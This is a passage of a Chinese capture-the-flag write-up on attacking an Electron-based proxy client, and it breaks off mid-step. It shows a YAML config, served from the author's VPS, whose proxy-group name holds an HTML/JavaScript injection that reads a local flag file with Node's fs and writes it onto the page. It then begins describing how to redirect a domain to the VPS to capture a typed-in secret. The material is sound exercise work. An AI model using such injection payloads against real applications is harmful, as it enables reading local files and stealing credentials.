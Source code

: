 + flag0 需要读取 `/app/profiles/flag.yml`
+ flag1 需要读取 `/flag_easy`
+ flag2 需要读取 `/flag`

发现可以用 `document.write` 输出内容（不过每次结束后都要重启环境）。

于是用 `fs` 读取并写在网页上。

> 需要用 VPS 搭建 Nginx，用于传输 yaml 文件

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
    - name: a
      type: socks5
      server: 127.0.0.1
      port: '17938'
      skip-cert-verify: true
    - name: abc
      type: socks5
      server: 127.0.0.1
      port: '8088'
      skip-cert-verify: true

proxy-groups:
    - name: <img/src="1"/onerror='const fs=require("fs"); fs.readFile("/app/profiles/flag.yml", "utf8", (err, data) => {document.write(data)});'>
      type: select
      proxies:
          - a
```

#### Flag 2

虽然这个 flag 在容器启动时被移除了

```javascript
const flag = readFileSync('/flag_easy', 'utf8')
writeFileSync('/flag_easy', 'flag{no_flag_here}')
```

但如果访问特定网站，它就能被写出来

```javascript
await page.goto(url.toString())
if (new URL(url).hostname === 'ys.pku.edu.cn') {
    await page.type('#primogem_code[type=password]', flag)
}
```

使用 hosts 字段指定域名解析结果为 VPS 的 ip 地址：
